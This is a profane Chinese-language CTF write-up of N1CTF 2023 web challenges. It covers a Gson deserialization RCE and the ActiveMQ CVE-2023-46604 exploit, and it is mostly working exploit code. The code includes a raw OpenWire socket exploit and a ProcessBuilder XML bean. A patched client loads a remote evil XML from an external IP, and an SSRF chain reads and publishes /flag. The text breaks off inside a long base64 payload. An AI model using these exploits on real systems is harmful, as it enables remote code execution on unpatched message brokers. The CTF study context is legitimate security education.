# 写在前面

太顶了这比赛,还得复现学很多东西.

环境:

[GitHub - Nu1LCTF/n1ctf-2023](https://github.com/Nu1LCTF/n1ctf-2023)

参考:

[N1CTF 2023 Web 赛后复现 Writeup - Boogiepop Doesn't Laugh (boogipop.com)](https://boogipop.com/2023/11/06/N1CTF 2023 Web 赛后复现 Writeup/#StrangePort)

[N1CTF 2023 writeup (qq.com)](https://mp.weixin.qq.com/s/HQgtWIVNFyt-uN-tJDTXAw#:~:text=ggbond's ggos)

[2023n1ctf wp (qq.com)](https://mp.weixin.qq.com/s/uT7mPEoD2BRofuyDrOanZQ)  DJB!!!!😝🥰

我可太喜欢大B老师了🥵,受不了!!!1,爆了!


# StrangePort

开了个服务,通过nginx反代,题目不出网,md就这么想恶心👴吗😅


题目给的controller

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.api;

import com.google.gson.Gson;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PathVariable;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping({"/api"})
public class APIController {
    public APIController() {
    }

    @GetMapping({"/"})
    public String index() throws Exception {
        return "try /api/com.api.Person/eyJuYW1lIjoidXNlciIsImFnZSI6IjIwIn0=";
    }

    @GetMapping({"/{Person}/{Json}"})
    public Person handleApiRequest(@PathVariable String Person, @PathVariable String Json) throws Exception {
        Gson gson = new Gson();
        Person person = (Person)gson.fromJson(new String(Base64.getDecoder().decode(Json), StandardCharsets.UTF_8), Class.forName(Person));
        return person;
    }
}

```

用自己√Ⅷ想想都知道要通过Gson打一个RCE.


## 分析🤔

不多说,先debug看一下能不能出点什么信息.

```java
import com.api.Person;
import com.google.gson.Gson;

import java.lang.reflect.InvocationTargetException;
import java.nio.charset.StandardCharsets;
import java.util.Base64;

public class GsonDemo {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, ClassNotFoundException, IOException {
        String Json="eyJscGNBbGxDb20iOlsidG91Y2ggL3RtcC9hYWFhYSIsInRvdWNoIC90bXAvYWFhYWEiXX0=";
        String Person="Person";
        Gson gson = new Gson();
        com.api.Person o = (Person) gson.fromJson(new String(Base64.getDecoder().decode(Json), StandardCharsets.UTF_8), Class.forName(Person));
    }
}
//
```

随便给个base64

来个Person😤

```java
 public class Person {

    public Person() {
        System.out.println(1111);
    }
    public String name = "john";
    public String age = "11";

    public String toString() {
        return "Person{name='" + this.name + "', age='" + this.age + "'}";
    }

    public Person(String name, String age) {
        this.name = name;
        this.age = age;
    }
    Object writeReplace() {
        System.out.println('1');
        return 1;
    }

    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public String getAge() {
        return this.age;
    }

    public void setAge(String age) {
        this.age = age;
    }
}


```


可以看到有构造方法,就会去调用,没有的话,就会调用Unsafe实例化.

所以,思考一下怎么通过construct到RCE.😤

这里就可以尝试用一个`PrintServiceLookupProvider`,事实上只要实现了`PrintServiceLookup`类的都行.


写个demo去调试一下🤣

```java
import java.io.IOException;

public class Person {

    public Person() throws IOException {
        Runtime.getRuntime().exec("whoami"+age);
    }
    public String name = "john";
    public String age = "11";

    public String toString() {
        return "Person{name='" + this.name + "', age='" + this.age + "'}";
    }

    public Person(String name, String age) {
        this.name = name;
        this.age = age;
    }
    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public String getAge() {
        return this.age;
    }

    public void setAge(String age) {
        this.age = age;
    }
}

```

尝试命令拼接

不出意外地出意外了😅😓


大B老师说,PrintService是会新建一个线程，进行一个重复循环如下

```java
import java.io.IOException;
import java.io.Writer;

public class Person {
    class RceThread implements Runnable{
        @Override
        public void run() {
            while (true) {
                try {
                    Runtime.getRuntime().exec(age);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }


    public Person() throws IOException {
        Thread thr = new Thread(null, new Person.RceThread(),
                "Rce", 0, false);
        thr.setDaemon(true);
        thr.start();
       }
    public String name = "john";
    public String age = "11";

    public String toString() {
        return "Person{name='" + this.name + "', age='" + this.age + "'}";
    }

    public Person(String name, String age) {
        this.name = name;
        this.age = age;
    }
    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public String getAge() {
        return this.age;
    }

    public void setAge(String age) {
        this.age = age;
    }
}
```


访问

```
http://127.0.0.1:8877/api/sun.print.PrintServiceLookupProvider/eyJscGNBbGxDb20iOlsidG91Y2ggL3RtcC9hYWFhYSIsInRvdWNoIC90bXAvYWFhYWEiXX0=
```


rce成功

md本地jdk方法不太一样,调不出来,借用一下大B老师的图图.


## gtmdapachemq

[Apache ActiveMQ (版本 < 5.18.3) RCE 分析 - X1r0z Blog (exp10it.cn)](https://exp10it.cn/2023/10/apache-activemq-版本-5.18.3-rce-分析/)

[CVE-2023-46604 activemq<5.18.3 RCE 分析 - KingBridge - 博客园 (cnblogs.com)](https://www.cnblogs.com/kingbridge/articles/17812062.html)

### 环境搭建


```dockerfile
FROM apache/activemq-classic:5.17.5
RUN apt-get update
RUN apt-get install wget curl netcat -y
EXPOSE 61616
EXPOSE 5005
CMD [ "tail","-f","/dev/null" ]


```

不多说了,5005用于debug用,

找到`/opt/apache-activemq/bin/linux-x86-64/wrapper.conf`

加上一句

```dockerfile
wrapper.java.additional.14=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

运行

```java
/opt/apache-activemq/bin/linux-x86-64/activemq console
```

👴先把exp放这,接着跟着👴分析这怎么个事

```java
package org.example;

import javax.xml.crypto.Data;
import java.io.DataOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.net.Socket;

public class ScratchExploit {
    public static void main(String[] args) throws IOException {
        Socket socket = new Socket("127.0.0.1", 61616);
        OutputStream os = socket.getOutputStream();
        DataOutputStream dos = new DataOutputStream(os);
        dos.writeInt(0);// size
        dos.writeByte(31);// type
        dos.writeInt(0);// CommandId
        dos.writeBoolean(false);// Command response required
        dos.writeInt(0);// CorrelationId

        // body
        dos.writeBoolean(true);
        // UTF
        dos.writeBoolean(true);
        dos.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
        dos.writeBoolean(true);
        dos.writeUTF("http://192.168.111.1:8888/evil.xml");

        dos.close();
        os.close();
        socket.close();
    }
}


```

```java
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value><![CDATA[touch /tmp/pwned]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

起个python的http服务,别跟👴说你不会哦.


## 流程分析


ここは断点😤


在这里会进行任意类的有参实例化，而ApacheMQ是基于spring的，所以自然会有`ClassPathXmlApplicationContext`这个类，我们让他进行实例化，即可完成RCE，这个利用需要出网访问公网ip的恶意xml。

### 分析如何利用到createThrowable😊

#### Java Message Service(JMS)


👴也不是很懂是啥玩意,反正跟服务有关吗,简单抄一下概念放上😒🤣

Java Message Service（JMS）是一种用于创建、发送、接收和管理消息的Java API，通常用于构建分布式应用程序。JMS是Java EE（Enterprise Edition）规范的一部分，它提供了一种标准的方法来实现异步通信，使不同组件、应用程序和系统能够可靠地交换消息。

概念:

1. **消息（Message）**：JMS消息是一种用于在应用程序之间传递信息的数据包。消息可以包含文本、字节、Map、对象等不同类型的数据。
2. **消息生产者（Message Producer）**：消息生产者是负责创建和发送消息的应用程序组件。它将消息发送到消息队列或主题。
3. **消息消费者（Message Consumer）**：消息消费者是负责接收和处理消息的应用程序组件。它订阅一个消息队列或主题，以接收发送到该队列或主题的消息。
4. **消息队列（Queue）**：消息队列是一种点对点（Point-to-Point）通信模型，其中消息生产者将消息发送到特定队列，而消息消费者从队列接收消息。每条消息只能被一个消费者接收。
5. **主题（Topic）**：主题是一种发布/订阅（Publish/Subscribe）通信模型，其中消息生产者将消息发送到主题，而所有订阅了该主题的消息消费者都会接收该消息。
6. **连接工厂（Connection Factory）**：连接工厂是用于创建JMS连接的工厂对象。连接是与消息代理（如消息队列服务器）的连接，它负责管理会话和消息的传递。
7. **会话（Session）**：会话是一个上下文，用于发送和接收消息。它提供了事务性和非事务性会话选项，以确保消息的可靠传递。
8. **消息代理（Message Broker）**：消息代理是一个中间件组件，负责接收、存储和路由消息。常见的JMS消息代理包括Apache ActiveMQ、RabbitMQ和IBM WebSphere MQ等。

在JMS中，producer client和consumer client异步地向broker建立连接。Queue是可消耗性的，topic是无限的。😅





```java
package org.example;
import org.apache.activemq.ActiveMQConnectionFactory;
import javax.jms.*;

/**
 * Hello world!
 *
 */
public class App
{
    public static void main(String[] args) throws Exception {

        ConnectionFactory connectionFactory = new ActiveMQConnectionFactory("tcp://localhost:61616");
        Connection connection = connectionFactory.createConnection();
        connection.start();
        Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
        Destination destination = session.createQueue("tempQueue");

        MessageProducer producer = session.createProducer(destination);
        Message message = session.createObjectMessage("123");
        producer.send(message);

        connection.close();
    }
}
```

首先创造连接,打本地的616端口服务,重点在`Destination destination = session.createQueue("tempQueue");`：创建一个消息队列。这里使用`createQueue()`方法创建了一个名为"tempQueue"的队列。这是一个点对点通信模型的队列。

一般来说`Producer`将消息放在队列之中,允许其他应用程序或组件从该队列接收消息.


activemq的broker和client用OpenWire应用层协议通信，传输层用的是TCP协议。


OpenWire通信的包会在`org.apache.activemq.openwire#doUnmarshal`反序列化

OpenWire（也称为ActiveMQ OpenWire）是Apache ActiveMQ消息代理的二进制协议，用于在消息代理和JMS客户端之间进行通信。它是一种紧凑的、高效的协议，旨在提供快速的消息传递性能。👴简单说到这,不想长篇大幅写了( ఠൠఠ )ﾉ


上tnd断点


阿米诺斯,捏麻麻地报错

哦,源赖氏没有这个类,ntmd不早说

```java
<dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.17.1</version> <!-- 使用适当的版本 -->
        </dependency>
```

maven重新加载的时候又tmd把自己加的依赖去掉了,重新加一下.


运行后,走到断点处

根据dataType指定的DataStreamMarshaller实现类，调用createObject方法。然后根据`tightEncodingEnabled`选择tightUnmarshal或looseUnmarshal

一次ApacheMQ的通讯请求中会不断的有marshal和dounmarshal的操作




而`ExceptionResponseMarshaller`有`tightUnmarhsal`方法,会进入其`tightUnmarhsal`方法,是`BaseDataStreamMarshaller`的子类

什么?你问什么是`BaseDataStreamMarshaller`?不就是最终漏洞利用点的地方吗.


`ExceptionResponseMarshaller#looseUnmarshal`会调用looseUnmarsalThrowable，从而调用`org.apache.activemq.openwire.v12.BaseDataStreamMarshaller#createThrowable`到达漏洞利用点.


捏麻麻地,好√Ⅷ难调,nmd一次还有时间限制




走到`looseUnmarsalThrowable`




这里就进入了恶意方法,至此,我们需要控制`clazz`和`message`


.png)

因为 ExceptionResponseMarshaller 也有 `marshal` 方法, 所以就研究如何去发送一个经由这个 marshaller 处理的 `ExceptionResponse`






`oneway` 方法会调用 `wireFormat.marshal()` 去序列化 command

command 就是前面准备发送的 `ObjectMessage`, 而 wireFormat 就是和它对应的序列化器

那么我们只需要手动 patch 这个方法, 将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可

`this.wireFormat.marshal(command, this.dataOut);`我们在这里手动patch其中command为CPX类，我们的做法很简单，也只需要写一个相同的包名，这样由于方法调用机制，会优先寻找我们重写的类，然后调用其中的onway方法。


```java
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable context = new ClassPathXmlApplicationContext("http://8.130.24.188:8000/rce.xml");
    ExceptionResponse exceptionResponse = new ExceptionResponse(context);
    this.wireFormat.marshal(exceptionResponse, this.dataOut);
    this.dataOut.flush();
}
```

```java
package org.springframework.context.support;

public class ClassPathXmlApplicationContext extends Throwable{
    private String message;

    public ClassPathXmlApplicationContext(String message) {
        this.message = message;
    }

    @Override
    public String getMessage() {
        return message;
    }
}

```

注意重写getMedssage，这是为了让服务端获取到message，也就是实例化参数）继承Throwable是因为ExceptionResponse需要Exception类型，我们只是需要他的类名和传参。然后服务端会根据这2个值进行实例化.

真√Ⅷ恶心,太难调了,老是掉连接.



会进行本地序列化,直接改方法




算了,根据文档,打一个sock协议[ActiveMQ (apache.org)](https://activemq.apache.org/openwire-version-2-specification)😅

## 打tmd题目😡


nmd题目反代不让出网,完全利用不了.😅

肖健仁!!!!!😡,题目既然还有一个挂GSON的机子,👴就打tmd的SSRF😤


参考NESE爹的exp

```java
import org.apache.activemq.ActiveMQConnectionFactory;
import javax.jms.*;

public class Main implements MessageListener {
    private void publish() throws Exception {
        javax.jms.ConnectionFactory factory;
        factory = new ActiveMQConnectionFactory("tcp://127.0.0.1:61616");
        Connection connection = factory.createConnection();
        Session pubSession = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
        Queue queue = pubSession.createQueue("flagqueue");
        MessageProducer publisher = pubSession.createProducer(queue);
        String[] cmd = new String[]{"/bin/sh","-c","cat /flag"};
        byte[] bs = new Scanner(new ProcessBuilder(cmd).start().getInputStream())
                .useDelimiter("\\A")
                .next()
                .getBytes();
        String message = new String(bs);
        TextMessage msg = pubSession.createTextMessage();
        msg.setText(message);
        publisher.send(msg);
        System.out.println("publish finished");
        connection.close();
    }

    private void consume() throws Exception {
        ConnectionFactory factory = new ActiveMQConnectionFactory("tcp://xxx:61616");
        Connection connection = factory.createConnection();
        Session subSession = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
        Queue queue = subSession.createQueue("flagqueue");
        MessageConsumer subscriber = subSession.createConsumer(queue);
        subscriber.setMessageListener(this);
        connection.start();
    }


    public static void main(String[] args) throws Exception {
        Main main = new Main();
         main.publish();
    }

    @Override
    public void onMessage(Message message) {
        try {
            System.out.println("Received " + ((TextMessage) message).getText());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}   

```

通过这个文件读flag,从文件 `/flag` 读取内容，并将其作为文本消息发送到名为 "flagqueue" 的 ActiveMQ 消息队列中。这使得其他应用程序可以订阅 "flagqueue" 队列来接收消息。

改一下oneway,通过这个去SSRF的GSON

```java
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8877/api/sun.print.PrintServiceLookupProvider/eyJscGNBbGxDb20iOlsieXY2NnZnQUFBRFFBd1FvQU1RQmRCd0JlQ0FCZkNnQUNBR0FMQUdFQVlnY0FZd3NBWkFCbENBQm1Dd0FHQUdjTEFBWUFhQWNBYVFnQWFnZ0Fhd2dBYkFjQWJRY0FiZ29BRUFCdkNnQVFBSEFLQUhFQWNnb0FEd0J6Q0FCMENnQVBBSFVLQUE4QWRnb0FDd0IzQ2dBTEFIZ0xBQVlBZVFzQUxBQjZDd0I3QUh3SkFIMEFmZ2dBZndvQWdBQ0JDd0JrQUlJSUFJTUxBQVlBaEFzQWhRQ0dDd0JrQUljSEFJZ0tBQ1VBWFFvQUpRQ0pCd0NLQ2dBb0FGMElBSXNLQUNnQWpBY0FqUXNBTEFDT0NnQW9BSThIQUpBS0FDOEFrUWNBa2djQWt3RUFCanhwYm1sMFBnRUFBeWdwVmdFQUJFTnZaR1VCQUE5TWFXNWxUblZ0WW1WeVZHRmliR1VCQUJKTWIyTmhiRlpoY21saFlteGxWR0ZpYkdVQkFBUjBhR2x6QVFBR1RFMWhhVzQ3QVFBSGNIVmliR2x6YUFFQUIyWmhZM1J2Y25rQkFCMU1hbUYyWVhndmFtMXpMME52Ym01bFkzUnBiMjVHWVdOMGIzSjVPd0VBQ21OdmJtNWxZM1JwYjI0QkFCWk1hbUYyWVhndmFtMXpMME52Ym01bFkzUnBiMjQ3QVFBS2NIVmlVMlZ6YzJsdmJnRUFFMHhxWVhaaGVDOXFiWE12VTJWemMybHZianNCQUFWeGRXVjFaUUVBRVV4cVlYWmhlQzlxYlhNdlVYVmxkV1U3QVFBSmNIVmliR2x6YUdWeUFRQWJUR3BoZG1GNEwycHRjeTlOWlhOellXZGxVSEp2WkhWalpYSTdBUUFEWTIxa0FRQVRXMHhxWVhaaEwyeGhibWN2VTNSeWFXNW5Pd0VBQW1KekFRQUNXMElCQUFkdFpYTnpZV2RsQVFBU1RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0FRQURiWE5uQVFBWFRHcGhkbUY0TDJwdGN5OVVaWGgwVFdWemMyRm5aVHNCQUFwRmVHTmxjSFJwYjI1ekFRQUhZMjl1YzNWdFpRRUFDbk4xWWxObGMzTnBiMjRCQUFwemRXSnpZM0pwWW1WeUFRQWJUR3BoZG1GNEwycHRjeTlOWlhOellXZGxRMjl1YzNWdFpYSTdBUUFFYldGcGJnRUFGaWhiVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1ZZQkFBUmhjbWR6QVFBSmIyNU5aWE56WVdkbEFRQVdLRXhxWVhaaGVDOXFiWE12VFdWemMyRm5aVHNwVmdFQUFXVUJBQlZNYW1GMllTOXNZVzVuTDBWNFkyVndkR2x2YmpzQkFCTk1hbUYyWVhndmFtMXpMMDFsYzNOaFoyVTdBUUFOVTNSaFkydE5ZWEJVWVdKc1pRRUFDbE52ZFhKalpVWnBiR1VCQUFsTllXbHVMbXBoZG1FTUFETUFOQUVBTFc5eVp5OWhjR0ZqYUdVdllXTjBhWFpsYlhFdlFXTjBhWFpsVFZGRGIyNXVaV04wYVc5dVJtRmpkRzl5ZVFFQUZYUmpjRG92THpFeU55NHdMakF1TVRvMk1UWXhOZ3dBTXdDVUJ3Q1ZEQUNXQUpjQkFCRnFZWFpoZUM5cWJYTXZVMlZ6YzJsdmJnY0FtQXdBbVFDYUFRQUpabXhoWjNGMVpYVmxEQUNiQUp3TUFKMEFuZ0VBRUdwaGRtRXZiR0Z1Wnk5VGRISnBibWNCQUFjdlltbHVMM05vQVFBQ0xXTUJBQWxqWVhRZ0wyWnNZV2NCQUJGcVlYWmhMM1YwYVd3dlUyTmhibTVsY2dFQUdHcGhkbUV2YkdGdVp5OVFjbTlqWlhOelFuVnBiR1JsY2d3QU13QlREQUNmQUtBSEFLRU1BS0lBb3d3QU13Q2tBUUFDWEVFTUFLVUFwZ3dBcHdDb0RBQ3BBS29NQURNQXF3d0FyQUN0REFDdUFKUUhBSzhNQUxBQVZnY0FzUXdBc2dDekFRQVFjSFZpYkdsemFDQm1hVzVwYzJobFpBY0F0QXdBdFFDVURBQzJBRFFCQUE5MFkzQTZMeTk0ZUhnNk5qRTJNVFlNQUxjQXVBY0F1UXdBdWdDN0RBQ2ZBRFFCQUFSTllXbHVEQUE2QURRQkFCZHFZWFpoTDJ4aGJtY3ZVM1J5YVc1blFuVnBiR1JsY2dFQUNWSmxZMlZwZG1Wa0lBd0F2QUM5QVFBVmFtRjJZWGd2YW0xekwxUmxlSFJOWlhOellXZGxEQUMrQUtnTUFMOEFxQUVBRTJwaGRtRXZiR0Z1Wnk5RmVHTmxjSFJwYjI0TUFNQUFOQUVBRUdwaGRtRXZiR0Z1Wnk5UFltcGxZM1FCQUJscVlYWmhlQzlxYlhNdlRXVnpjMkZuWlV4cGMzUmxibVZ5QVFBVktFeHFZWFpoTDJ4aGJtY3ZVM1J5YVc1bk95bFdBUUFiYW1GMllYZ3ZhbTF6TDBOdmJtNWxZM1JwYjI1R1lXTjBiM0o1QVFBUVkzSmxZWFJsUTI5dWJtVmpkR2x2YmdFQUdDZ3BUR3BoZG1GNEwycHRjeTlEYjI1dVpXTjBhVzl1T3dFQUZHcGhkbUY0TDJwdGN5OURiMjV1WldOMGFXOXVBUUFOWTNKbFlYUmxVMlZ6YzJsdmJnRUFGeWhhU1NsTWFtRjJZWGd2YW0xekwxTmxjM05wYjI0N0FRQUxZM0psWVhSbFVYVmxkV1VCQUNVb1